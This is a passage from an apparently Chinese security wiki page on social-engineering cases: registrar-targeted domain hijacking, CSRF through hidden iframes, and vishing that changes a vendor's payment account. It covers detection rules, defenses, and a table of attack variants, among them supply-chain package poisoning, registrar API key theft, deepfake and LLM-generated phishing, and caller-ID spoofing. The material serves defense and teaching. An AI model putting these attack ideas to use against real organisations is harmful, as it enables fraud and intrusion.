| **定向钓鱼/电话社工演练（含“业务合作/账户变更”话术）** | 心理战术免疫 | 红队实战化演练，覆盖“数据购买”“系统对接”“技术交流”“账户变更”“领导指示”场景 |
| **异常账号/充值/解析/账户变更监控告警** | CSRF 成功后的落地动作 / 域名劫持生效 / Vishing 资金流向异常 | 规则：新增管理员、大额充值、解析记录变更、**供应商账户变更**、非工作时段操作 → 即时告警+人工复核 |
| **高管/关键人员（财务/IT/采购/法务）专项防护** | 针对性心理画像攻击 | 专属安全助理、通讯录白名单、社交媒体暴露面控制、专用安全终端 |
| **供应链安全协同机制** | 供应商系统被入侵导致情报泄露、变更函被伪造 | 核心供应商安全准入、联合应急预案、变更联合确认协议、定期安全评估 |

### 流量/行为检测规则

| 检测点 | 规则思路 | 关联技术 |
|--------|----------|----------|
| **隐藏 iframe 加载跨域表单提交页** | HTTP 请求：`Referer` 为攻击者域名，`Target` 为后台敏感接口，`Content-Type: application/x-www-form-urlencoded` 且 Body 包含敏感参数 | [[named-pipe-smb-detection-sysmon]] 思路迁移至 Web 层 |
| **短时间内连续触发添加管理员/充值/修改解析/修改供应商账户接口** | 会话级关联：同一 Cookie/Session 在 <5s 内连续调用多个敏感写接口 | UEBA 异常行为分析 |
| **管理员账号新增后立即登录 / 解析修改后流量异常 / 供应商账户变更后首笔大额付款** | 审计日志关联：`CREATE_USER`/`DNS_CHANGE`/`VENDOR_ACCOUNT_CHANGE` 事件后 <1h 出现异常登录/流量/付款且来源 IP 非运维/财务网段 | [[threat-attribution-tracing-techniques]] 溯源链 |
| **WHOIS 信息与工单联系邮箱不一致** | 注册商工单系统自动比对：提交邮箱 ≠ WHOIS 注册邮箱 → 触发人工复核 | — |
| **来电显示与档案库号码不符/号码伪造特征** | 总机网关识别：来电号码非供应商档案库号段、SIP 头异常、网关归属地不匹配 → 标记“疑似伪造”/拦截/转人工核实 | — |
| **物理/社交接触异常模式** | 访客登记与实际人员不符、同一访客高频拜访不同部门、非工作时间尾随入内 | 物理安全信息管理系统 (PSIM) 联动 |
| **财务操作终端异常进程/网络连接** | EDR 监控：财务专用终端出现非白名单进程、连接非业务 IP、访问钓鱼链接/下载可疑文件 | [[memory-scanning-tools-evasion-techniques]] 检测思路迁移 |

---

## 变体与延伸利用思路（汇总）

| 变体方向 | 核心改动 | 适用场景 | 难度 | 关联案例 |
|----------|----------|----------|------|----------|
| **XSS + CSRF 组合** | 利用存储型/反射型 XSS 注入 iframe/自动提交表单，无需开发者配合 | 目标站点存在 XSS、但有 CSP frame-ancestors | 中 | [[xd-security-xss-vulnerability-notes-day25-28]] |
| **Service Worker 劫持** | 注册恶意 SW 拦截/篡改后台关键请求 | 目标站点支持 PWA、SW 作用域覆盖后台路径 | 高 | — |
| **供应链投毒：npm/Composer/PyPI 恶意包** | 在合法依赖包中植入构建时/运行时注入 iframe 代码 | 目标项目依赖第三方包、CI/CD 未签名验证 | 中高 | [[supply-chain-attack-fundamentals]] |
| **浏览器扩展/插件植入** | 诱导开发者安装恶意扩展，动态向后台页面注入载荷 | 开发者习惯安装效率插件、扩展权限含 `content_scripts` | 中 | — |
| **单页应用（SPA）路由劫持** | 利用前端路由守卫缺陷，在权限校验前注入恶意组件 | Vue/React/Angular 后台、路由懒加载 | 高 | — |
| **域名商 API 密钥窃取** | 针对开放 API 的注册商，通过钓鱼/泄露获取 API Key 直接修改解析 | 目标使用 API 管理域名、密钥管理不善 | 低 | [[vulnerability-mining-recon-aiqicha-fofa]] 侧写扩展 |
| **深度伪造 (Deepfake) 社工** | AI 合成语音/视频冒充高管/客服/熟人实施实时社工 | 视频会议/语音验证/远程协助场景 | 中高 | — |
| **大语言模型 (LLM) 辅助话术生成** | 利用 LLM 批量生成个性化钓鱼邮件/聊天话术/伪造文档 | 大规模定向钓鱼、自动化社工机器人 | 低 | — |
| **来电显示伪造 + AI 语音克隆** | SIP 网关伪造号码 + 实时语音合成冒充特定人员 | 高价值 Vishing 目标 | 高 | Vishing 案例变体 |
| **视频会议深度伪造** | 实时换脸/换声冒充供应商高管/财务总监进行视频审批 | 视频审批常态化组织 | 高 | Vishing 案例变体 |
| **供应链文档投毒** | 篡改供应商合同/邮件附件中的账户信息，财务按“正规文件”操作 | 供应商文档系统薄弱 | 中 | Vishing 案例变体 |

---

## 交叉引用与延伸阅读

- [[supply-chain-attack-fundamentals]] —— 供应链攻击全景，本案属“供应商系统被入侵导致情报泄露/文档被篡改”子类
- [[xd-security-csrf-ssrf-rce-notes-day29-30]] —— CSRF 原理、Pikachu 靶场实战、Token 绕过、真实社工+CSRF 组合案例
- [[osint-social-engineering-scam-investigation-case-study]] —— 社工溯源实战：Google Hacking、社交媒体分析、支付记录反查
- [[phishing-website-creation-tutorial]] —— 钓鱼页面制作入门：SET、手工 PHP、Docker 部署，可用于构造“社工库”外衣
- [[pikachu-target-writeup-part3]] —— CSRF GET/POST/Token 型完整复现与防御
- [[threat-attribution-tracing-techniques]] —— 攻击溯源全技术栈：IP/邮件/样本/流量/主机/日志多维回溯
- [[redteam-hw-opsec-guidelines]] —— 红队 OPSEC 规范：环境隔离、工具指纹清洗、上线隐匿、日志反取证
- [[cookie-security-fundamentals]] —— Cookie SameSite/HttpOnly/Secure 属性对 CSRF 的缓解机制深度解析
- [[vulnerability-mining-recon-aiqicha-fofa]] —— 资产测绘与侧写方法论，可用于域名/子域名/邮箱/供应商关联分析
- [[named-pipe-smb-detection-sysmon]] —— 异常行为基线检测思路，迁移至 Web/域名操作/财务操作审计场景
- [[web-cache-poisoning-techniques]] —— 缓存投毒与 iframe 利用变种，拓宽前端隐蔽投递视角
- [[security-engineer-recruitment-requirements]] —— 安全岗位画像与心理韧性要求参考
- [[jumbo-internal-penetration-cheatsheet]] —— 内网渗透备忘录，含异常检测规则参考
- [[memory-scanning-tools-evasion-techniques]] —— 内存扫描检测思路，迁移至终端安全监控
- [[docker-container-security-fundamentals]] —— 容器隔离思想，迁移至财务专用安全终端/浏览器隔离

---

## 变更记录

| 日期 | 版本 | 变更说明 |
|------|------|----------|
| 2018-05-15 | 1.0 | 域名劫持案例发生（推测），226安全团队微信公众号发布 |
| 2018-05-15 | 1.1 | 电影《我是谁》社会工程学分析文章发布（同期微信公众号归档） |
| 2023-04-16 | 2.0 | CSRF+Iframe 案例发生（推测），微信公众号归档文章发布 |
| 202X-XX-XX | 3.0 | Vishing 冒充合作方财务变更账户案例发生（301在路上微信归档） |
| 2025-01-15 | 4.0 | **重大更新**：合并四大案例为统一知识页面，增加电影《我是谁》教学案例深度拆解、Vishing 实战案例全链路复盘与防范清单、统一防御体系、变体延伸、交叉引用网络化，完善“社会工程学全攻击面”知识体系 |

---

> 本页面融合四篇微信公众号归档文章：(1) 226安全团队《网站被“黑”了，域名商这锅你别想甩！！！》（约 2018-05-15），记录域名注册商美橙互联客服被社会工程学攻击导致域名劫持全过程；(2) 《我是谁：人性才是最大的漏洞》（约 2018-05-15），基于德国电影《我是谁：没有绝对安全的系统》的社会工程学深度复盘与哲学思考；(3) 《一个猥琐的持续性攻击思路》（约 2023-04-16），记录利用心理战术+CSRF+Iframe 实现无感载荷投递的完整红队实战闭环；(4) 301在路上《一通电话损失100万！你敢接？》（日期未标注，来源归档），记录语音钓鱼冒充合作方财务变更收款账户导致百万损失的实战案例及防范建议。所有技术细节忠实还原原文，防御建议基于通用安全最佳实践推导。**严禁用于非授权攻击活动。**

## 来源

- [301在路上-201508-202208_032](../sources/301在路上-201508-202208_032.md)
- [301在路上-201508-202208_040](../sources/301在路上-201508-202208_040.md)
